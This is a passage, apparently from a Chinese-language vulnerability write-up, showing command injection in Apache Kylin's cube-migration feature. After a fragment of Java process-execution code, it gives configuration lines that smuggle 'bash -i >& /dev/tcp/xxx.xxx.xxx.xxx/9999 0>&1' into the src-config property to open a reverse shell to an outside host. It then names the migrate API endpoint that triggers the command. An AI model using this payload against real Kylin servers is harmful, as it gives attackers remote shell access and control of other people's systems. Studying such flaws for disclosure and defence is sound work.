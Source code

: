 ```java {17}
        }

        try {
            int exitCode = proc.waitFor();
            return Pair.newPair(exitCode, result.toString());
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException(e);
        }
    }

}
```

由此可以得出我们可以通过这两个可控的参数，执行任意我们需要的命令，例如反弹一个shell，设置的配置为

```
kylin.tool.auto-migrate-cube.enabled=true
kylin.tool.auto-migrate-cube.src-config=echo;bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
kylin.tool.auto-migrate-cube.dest-config=shell
```

![kylin-15](../../../.vuepress/public/img/kylin-15.png)

再去发送`POST`请求 `/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate`
